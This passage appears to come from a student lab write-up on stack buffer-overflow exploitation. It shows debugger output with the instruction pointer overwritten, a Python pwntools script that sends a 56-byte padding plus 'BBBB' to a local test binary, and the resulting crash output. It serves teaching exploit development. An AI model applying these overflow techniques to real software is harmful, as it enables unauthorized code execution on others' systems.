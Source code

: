 ```sh
RIP: 0x42424242 ('BBBB')
R8 : 0x7ffc9187ddb0 ('A' <repeats 56 times>, "BBBB")

```

## Create ROP chain to puts() call and leak memory address using python3 pwntools

Next, we will create our exploit and test to confirm that we can overflow the buffer.

```sh
from pwn import *


context.arch = 'amd64' # set runtime variables in a global setting.

#initialize process for pwntools
elf = ELF("../app/vuln64")
p = elf.process(["../app/vuln64" , "h"])

offset = 56

payload = [
	b"A" * offset,
	b"BBBB"

]

payload = b"".join(payload)
p.sendline(payload)
p.recvline()
p.recvline()

p.interactive()
```

Executing our script with Python3

```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ python3 exploit64.py
[*] '/home/student/Desktop/assign2/app/vuln64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/student/Desktop/assign2/app/vuln64': pid 1341
[*] Process '/home/student/Desktop/assign2/app/vuln64' stopped with exit code -11 (SIGSEGV) (pid 1341)
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$  

```
